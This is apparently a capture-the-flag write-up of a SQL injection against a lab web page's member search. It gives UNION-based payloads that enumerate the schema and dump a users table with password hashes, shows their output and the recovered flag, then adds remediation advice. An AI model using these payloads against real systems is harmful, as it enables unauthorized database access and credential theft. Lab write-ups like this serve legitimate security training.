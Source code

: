 # SQL Injection

On the page `http://192.168.56.2/?page=member`, we can write SQL command in the input field to get access to what is store in the database.

Making those commands will get us the flag.

```sql
1 UNION select table_name, column_name FROM information_Schema.columns
```
 This command gives us :

```
ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : user_id

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : first_name

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : last_name

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : town

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : country

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : planet

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : Commentaire

ID: 1 UNION select table_name, column_name FROM information_Schema.columns   
First name: users  
Surname : countersign
```

Let's look closer at **users** using this command :

```sql
1=1 UNION SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign ) FROM users
```

This last command gives us that:


```
ID: 1=1 UNION SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign ) FROM users   
First name: one  
Surname : me

ID: 1=1 UNION SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign ) FROM users   
First name: 1  
Surname : 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9

ID: 1=1 UNION SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign ) FROM users   
First name: 2  
Surname : 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10

ID: 1=1 UNION SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign ) FROM users   
First name: 3  
Surname : 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d

ID: 1=1 UNION SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign ) FROM users   
First name: 5  
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

The last one is really interesting. The word behind this md5 is **FortyTwo**. The sha256 of it gives us the flag.

** FLAG: 9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646**
 
## DESCRIPTION

SQL Injection occurs when an attacker is able to manipulate a SQL query by injecting malicious SQL code into an input field, which the application then executes. This can lead to unauthorized access to the database, data leakage, data manipulation, and other serious security issues.

## PATCH

1.  **Input Validation**: Validate user inputs to ensure they conform to expected formats before processing them.
    
2.  **Least Privilege Principle**: Ensure the database user account used by your application has the minimum privileges necessary to perform its tasks.
    
3.  **Stored Procedures**: Use stored procedures to handle database operations, which can help prevent some types of SQL Injection attacks.
    
4.  **Web Application Firewalls (WAF)**: Deploy a WAF to detect and block SQL Injection attempts.

## DOC

- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)